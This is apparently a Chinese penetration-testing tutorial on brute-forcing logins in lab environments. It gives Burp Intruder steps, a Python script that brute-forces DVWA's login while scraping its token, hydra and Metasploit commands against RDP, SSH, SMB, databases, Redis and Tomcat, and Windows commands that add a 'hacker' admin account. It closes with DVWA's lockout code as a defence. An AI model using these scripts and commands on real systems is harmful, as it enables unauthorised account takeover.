


# 爆破破解
# Web 认证爆破
# 基础爆破
DVWA 爆破模块难度：low、medium
难度 low：没有任何防爆破措施，没有对用户名和密码的输入进行过滤，使用 GET 登录安全性低。
难度 meidium：防爆方面只做了延时，增加了爆破时间但依旧能爆破，对用户名和密码的输入进行了过滤，使用 GET 登录安全性低。
# Basic 认证爆破
靶场地址：https://www.ctfhub.com/#/skilltree
靶场位置：技能树 -->Web-->Web 前置技能 -->HTTP 协议 ---> 基础认证
Basic 认证的特征: Authorization：Basic 用户名:密码(base64加密) 。
发送到 Intruder，攻击模式：Sniper，负载位置选择 用户名:密码 。
payload 类型选择 Custom Iterator （自定义迭代器）迭代器位置 1 设置成用户名 admin，用 : 分割，同时 payload 配置为 Base64 加密。
位置 2 导入密码即可，开始攻击，注意把 payload encoding 关掉。

长度最短的就是正确的用户名和密码，得到 flag。
右键进行 Base64 解密，可以看到真实的用户名和密码。

# 带 token 爆破
DVWA 暴力破解模块 - high
先说第一种方案，使用 BurpSuite 来爆破。
抓包发送到 intruder 模块，攻击类型选择 Pitchfork，将密码和 token 配置为 payload positions。
然后在 setting 中找到 Grep -Extract 功能，抓取响应包，双击 token 值点击 ok，就能自动在爆破中抓取 token 值
在 settings 中找到 Redirections，选择 Always，总是跟随重定向。
在 Resource pool 中配置线程，这里只能使用单线程，因为 token 要一次一次从响应包中抓取，这次抓取的 token，用于下次尝试登录。
第一个 payload 导入密码字典，密码字典设两个空密码用于防止爆破时遗漏第一个密码，后面爆破时就能看到效果。
第二个 payload 是 token，用的是抓取的 token 值，payload type 选择 Recursive grep。
这里就能看到之前留空密码的作用。
Length 最长的就是真实密码。
第二种方案，编写 python 脚本来爆破
import re | |
import requests | |
def get_token(url, headers_index): | |
html = requests.get(url=url, headers=headers_index, timeout=3).text | |
pattern = r"<input type='hidden' name='user_token' value='(.*?)' />" | |
match = re.search(pattern, html) | |
if match: | |
user_token = match.group(1) | |
return user_token | |
else: | |
print('未找到user_token') | |
return None | |
def brute(url, headers_index, username, password_path): | |
if get_token(url, headers_index) is None: | |
return | |
try: | |
with open(password_path, 'r') as f: | |
lines = ''.join(f.readlines()).split('\n') | |
for password in lines: | |
user_token = get_token(url, headers_index) | |
response = requests.get( | |
f'{url}?username={username}&password={password}&Login=Login&user_token={user_token}', | |
headers=headers_index, timeout=3) | |
match1 = re.search('welcome', response.text, re.IGNORECASE) | |
match2 = re.search('success', response.text, re.IGNORECASE) | |
print(username + " " + password + " " + user_token) | |
if match1 or match2: | |
print('暴力破解成功！！！') | |
print("用户名：" + username + "\n密码：" + password) | |
break | |
except Exception as e: | |
print(e) | |
if __name__ == '__main__': | |
headers_index = { | |
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36', | |
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7', | |
'Accept-Encoding': 'gzip, deflate, br', | |
'Accept-Language': 'zh-CN,zh;q=0.9', | |
'Cookie': 'PHPSESSID=2g9qv1v696bifnqv2uc6j71iq5; security=high', | |
'Connection': 'keep-alive', | |
'Upgrade-Insecure-Requests': '1' | |
} | |
url = 'http://192.168.23.129:8001/vulnerabilities/brute/index.php' | |
password_path = "top1000.txt" | |
username = 'admin' | |
brute(url=url, headers_index=headers_index, username=username, password_path=password_path) |
# 带图片验证码爆破
靶场地址：http://lab1.xseclab.com/vcode7_f7947d56f22133dbc85dda4f28530268/index.php
爆破手机验证码 (3 位数字)，识别数字验证码
工具 PKAV HTTP Fuzzer：https://github.com/estell-yf/PKAV
使用 python 编写脚本，生成 3 位数字手机验证码
with open("dic.txt", "w") as f: | |
for x in range(10): | |
for y in range(10): | |
for z in range(10): | |
f.write(f"{x}{y}{z}\n") |
先点击获取手机验证码，然后随便输入手机验证码和验证码，用 bp 抓包，将请求包复制到 pkav 的变体设置中，标记好手机验证码和图片验证码，导入生成的手机验证码字典
复制图片验证码的图片地址，粘贴到 pkav 的图片验证码识别模块中，点击设别测试，测试是否能识别成功
选择 pkav 的重放选择，验证码识别重放模式设置为单线程，验证码长度固定 4 位
进入 pkav 的发包器模块，粘贴目标网址，点击启动，遍历完后，选择长度最短的即为正确的验证码，点击返回包得到 flag。
# 暴力破解防护措施
参考一下 DVWA 暴力破解模块 - impossible 的代码
DVWA 暴力破解模块 - impossible
<?php | |
if( isset( $_POST[ 'Login' ] ) && isset ($_POST['username']) && isset ($_POST['password']) ) { | |
// Check Anti-CSRF token | |
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); | |
// Sanitise username input | |
$user = $_POST[ 'username' ]; | |
$user = stripslashes( $user );// 去反斜杠 | |
$user = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $user ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : "")); | |
// Sanitise password input | |
$pass = $_POST[ 'password' ]; | |
$pass = stripslashes( $pass ); | |
$pass = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $pass ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : "")); | |
$pass = md5( $pass ); | |
// Default values | |
$total_failed_login = 3; | |
$lockout_time = 15; | |
$account_locked = false; | |
// Check the database (Check user information) | |
// 获取用户的登录失败次数和最后登录时间 | |
$data = $db->prepare( 'SELECT failed_login, last_login FROM users WHERE user = (:user) LIMIT 1;' ); | |
$data->bindParam( ':user', $user, PDO::PARAM_STR ); | |
$data->execute(); | |
$row = $data->fetch(); | |
// Check to see if the user has been locked out. | |
if( ( $data->rowCount() == 1 ) && ( $row[ 'failed_login' ] >= $total_failed_login ) ) { | |
// User locked out. Note, using this method would allow for user enumeration! | |
//echo "<pre><br />This account has been locked due to too many incorrect logins.</pre>"; | |
// Calculate when the user would be allowed to login again | |
$last_login = strtotime( $row[ 'last_login' ] ); | |
$timeout = $last_login + ($lockout_time * 60); | |
$timenow = time(); | |
/* | |
print "The last login was: " . date ("h:i:s", $last_login) . "<br />"; | |
print "The timenow is: " . date ("h:i:s", $timenow) . "<br />"; | |
print "The timeout is: " . date ("h:i:s", $timeout) . "<br />"; | |
*/ | |
// Check to see if enough time has passed, if it hasn't locked the account | |
if( $timenow < $timeout ) { | |
$account_locked = true; | |
// print "The account is locked<br />"; | |
} | |
} | |
// Check the database (if username matches the password) | |
$data = $db->prepare( 'SELECT * FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' ); | |
$data->bindParam( ':user', $user, PDO::PARAM_STR); | |
$data->bindParam( ':password', $pass, PDO::PARAM_STR ); | |
$data->execute(); | |
$row = $data->fetch(); | |
// If its a valid login... | |
if( ( $data->rowCount() == 1 ) && ( $account_locked == false ) ) { | |
// Get users details | |
$avatar = $row[ 'avatar' ]; | |
$failed_login = $row[ 'failed_login' ]; | |
$last_login = $row[ 'last_login' ]; | |
// Login successful | |
echo "<p>Welcome to the password protected area <em>{$user}</em></p>"; | |
echo "<img src=\"{$avatar}\" />"; | |
// Had the account been locked out since last login? | |
if( $failed_login >= $total_failed_login ) { | |
echo "<p><em>Warning</em>: Someone might of been brute forcing your account.</p>"; | |
echo "<p>Number of login attempts: <em>{$failed_login}</em>.<br />Last login attempt was at: <em>${last_login}</em>.</p>"; | |
} | |
// Reset bad login count | |
$data = $db->prepare( 'UPDATE users SET failed_login = "0" WHERE user = (:user) LIMIT 1;' ); | |
$data->bindParam( ':user', $user, PDO::PARAM_STR ); | |
$data->execute(); | |
} else { | |
// Login failed | |
sleep( rand( 2, 4 ) ); | |
// Give the user some feedback | |
echo "<pre><br />Username and/or password incorrect.<br /><br/>Alternative, the account has been locked because of too many failed logins.<br />If this is the case, <em>please try again in {$lockout_time} minutes</em>.</pre>"; | |
// Update bad login count | |
$data = $db->prepare( 'UPDATE users SET failed_login = (failed_login + 1) WHERE user = (:user) LIMIT 1;' ); | |
$data->bindParam( ':user', $user, PDO::PARAM_STR ); | |
$data->execute(); | |
} | |
// Set the last login time | |
$data = $db->prepare( 'UPDATE users SET last_login = now() WHERE user = (:user) LIMIT 1;' ); | |
$data->bindParam( ':user', $user, PDO::PARAM_STR ); | |
$data->execute(); | |
} | |
// Generate Anti-CSRF token | |
generateSessionToken(); |
- POST 登录
- 对用户名和密码的输入过滤
- 失败三次，锁定输入 15 分钟，如果用户已被锁定、输入的是正确的用户名和密码会提示有人暴力破解你的账户，并重置账户的登录次数
- 登录失败时随机睡眠 2-4 秒
- 带 token 验证
目前主流的放爆破措施：
- 验证码：图片验证、拼图验证、滑动验证、人机交互验证
- SSO（Single Sign On）：单点登录、统一身份认证
# 系统认证爆破
# RDP 爆破 (3389)
RDP 远程桌面协议 (Remote Desktop Protocol)
Windows 命令：
# 查看用户详情 | |
net user administrator | |
# 修改密码 | |
net user administrator 123.com | |
# 开启 GUEST 来宾用户 | |
net user guest /active:yes | |
# 关闭 GUEST 来宾用户 | |
net user guest /active:no | |
# 创建一个用户 hacker 密码为：hacker.123 | |
net user hacker hacker.123 /add | |
# 查看管理组成员 | |
net localgroup administrators | |
# 将 guest 用户添加到管理组 | |
net localgroup administrators guest /add | |
# 将 guest 用户从管理组移除 | |
net localgroup administrators guest /del |
目标靶机：Windows Server 2008 R2 with SP1 已开启 RDP
hydra：
hydra -l Administrator -P password.txt 192.168.23.135 rdp 3389 -vV |

SNETCracker： https://github.com/shack2/SNETCracker
** 御剑 RDP 爆破：**https://github.com/foryujian/yujianrdpcrack/tree/5b68c2b0070890f33a1dad1de393706be4372c26
# SMB 爆破 (445)
SMB（Server Message Block）协议，用于文件共享、打印服务等。如果有 SMB (445)，SMB 爆破的优先级高于 RDP (3389)
hydra
hydra -l Administrator -P password.txt 192.168.23.135 rdp 3389 -vV |
msf
msfconsole |
search smb_login | |
use 0 |
show options |
set RHOSTS 192.168.23.135 | |
set PASS_FILE /home/kali/password.txt | |
set SMBUser administrator | |
run |
SNETCracker
# SSH 爆破 (22)
ssh (Secure Shell) 字面意思安全的 shell，用于远程登录或者文件传输。
Windows server 2008 R2 安装 openssh：https://github.com/PowerShell/Win32-OpenSSH/releases
下载.msi 安装包直接安装即可
用 python 编写脚本检查目标主机 ssh 是否设置公钥认证。
import pexpect | |
import progressbar | |
with open('22.txt') as f: | |
lines = f.readlines() | |
attack_ips = [] | |
p = progressbar.ProgressBar() | |
user = 'administrator' | |
for line in p(lines): | |
ssh = pexpect.spawn(f'ssh {user}@{line}') | |
try: | |
flag = ssh.expect(['continue', 'password:'], timeout=3) | |
if str(flag).isnumeric(): | |
attack_ips.append(line) | |
except pexpect.EOF: | |
ssh.close() | |
except pexpect.TIMEOUT: | |
ssh.close() | |
for ip in attack_ips: | |
with open('ssh.txt', 'a') as f: | |
f.write(ip) |
railgun
一款多功能渗透工具，不限于暴力破解
https://github.com/lz520520/railgun
hydra
hydra -l Administrator -P password.txt 192.168.23.135 ssh 22 -vV |
msf
msf 提供了公钥登录爆破和数字登录爆破，这里使用数字登录爆破 use 0
查看需要配置的参数：
set PASS_FILE /home/kali/password.txt | |
set RHOSTS 192.168.23.135 | |
set USERNAME administrator | |
run |
# Telnet 爆破 (23)
Telnet 主要用于远程登录，很危险的一个端口，漏洞对多，建议关闭
SNETCracker 和 railgun 爆破不出来
hydra
hydra -l Administrator -P /home/kali/password.txt 192.168.23.135 telnet 23 -vV |
msf
search telnet_login | |
use 1 |
show options |
set USERNAME administrator | |
set PASS_FILE /home/kali/password.txt | |
set RHOSTS 192.168.23.135 | |
run |
# MSSQL 爆破 (1433)
Windows Server 2008 R2 部署 SQL Server 2008 R2 环境参考文章：https://macchiato.ink/web/web_security/mssql_injection_setup/
hydra
hydra -l sa -P /home/kali/password.txt 192.168.23.135 mssql 1443 -vV |
msf
msfconsole | |
search mssql_login | |
use 0 |
show options |
set RHOSTS 192.168.23.135 | |
set PASS_FILE /home/kali/password.txt | |
run |

railgun
# MySQL 爆破 (3306)
先检查 mysql 是否开启远程连接
mysql -h 192.168.23.133 -u root -p |
开启了外连：（密码随便输入）
没开启外连：
MySQL 开启和关闭远程连接参考文章：https://www.cnblogs.com/patrick-yeh/p/14303729.html
# 开启mysql远程连接
mysql -uroot -p
use mysql
# 8.0以下
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'root' WITH GRANT OPTION;
# 8.0以上
# create user root@'%' identified by '设置的密码';
# grant all privileges on *.* to root@'%' with grant option;
FLUSH PRIVILEGES;
# 关闭mysql远程连接
mysql -uroot -p
use mysql;
DELETE FROM user WHERE User="root" and Host="%";
FLUSH PRIVILEGES;
hydra
railgun
msf
search mysql_login | |
use 0 |
show options |
set RHOSTS 192.168.23.133 | |
set PASS_FILE /home/kali/password.txt | |
run |
# Oracle 爆破 (1521)
docker 部署地址：https://hub.docker.com/r/oracleinanutshell/oracle-xe-11g
docker pull oracleinanutshell/oracle-xe-11g | |
# ORACLE_ALLOW_REMOTE=true 开启远程连接 | |
docker run -d -p 1521:1521 -e ORACLE_ALLOW_REMOTE=true oracleinanutshell/oracle-xe-11g |
msf
先破解 SID，自带字典就能直接破解
search sid_brute | |
use 1 |
show options |
set RHOSTS 192.168.23.129 | |
run |
然后破解 Oracle 数据库
search oracle_login | |
use 1 |
show options |

set RHOSTS 192.168.23.129 | |
set RPORTS 1521 | |
run |
# PostgreSQL 爆破 (5432)
PostgreSQL 一种对象 - 关系数据库
PostgreSQL 官方 docker 镜像：https://hub.docker.com/_/postgres
docker pull postgres | |
# 默认用户名：postgres 也可以用 POSTGRES_USER= 设置 | |
docker run -d -p 5432:5432 -e POSTGRES_PASSWORD=123.com postgres |
hydra
hydra -l postgres -P password.txt 192.168.23.129 postgres -vV |
msf
search postgres_login | |
use 0 |
show options |
set RHOSTS 192.168.23.129 | |
set USERNAME postgres | |
set USER_FILE "" | |
set USERPASS_FILE "" | |
set PASS_FILE /home/kali/password.txt | |
run |
railgun
# Redis 爆破 (6379)
Redis 环境 docker 地址：https://hub.docker.com/r/sqlsec/redis5-centos7-cron
# 拉取镜像 | |
docker pull sqlsec/redis5-centos7-cron:latest | |
# 创建容器 | |
docker run -d -p 6379:6379 sqlsec/redis5-centos7-cron:latest |
docker 默认没有密码
msf
msfconsole | |
search redis_login | |
use 0 |
show options |
set RHOSTS 192.168.23.129 | |
run |
redis 远程连接命令
redis-cli -h 192.168.23.129 -a 密码 |
密码配置
在 /etc/redis.config 中插入 requirepass ed4c39b015b0e46f074dbfd0a9a4ab278f63340a6d640999f25c68a932fef815 配置完需要重启 redis
另一种方式不需要重启 redis
# 首先连接本地 redis | |
redis-cli | |
# info 显示 redis 信息，如果 info 不显示信息说明需要密码 | |
info | |
# ATUH + 密码 进行认证 | |
AUTH 密码 | |
# 获取当前密码 | |
config get requirepass | |
# 设置密码 | |
config set requirepass |
# Tomcat 爆破 (8080)
Tomcat 爆破可以使用 Burp Suite 来进行 Base 认证爆破，也可使用 msf 进行爆破。Tomcat 口令是用户在 /conf/tomcat-users.xml 配置的，容易出现弱口令，容易被 getshell。
search tomcat_mgr_login | |
use auxiliary/scanner/http/tomcat_mgr_login | |
show options | |
set RHOTS 192.168.23.129 | |
run |
# MongoDB 爆破 (27017)
一个基于分布式文件存储的数据库，MongoDB 服务开启时不加任何参数，默认是没有开启认证的，存在未授权访问。
可以使用 msf 进行爆破，爆破模块 auxiliary/scanner/mongodb/mongodb_login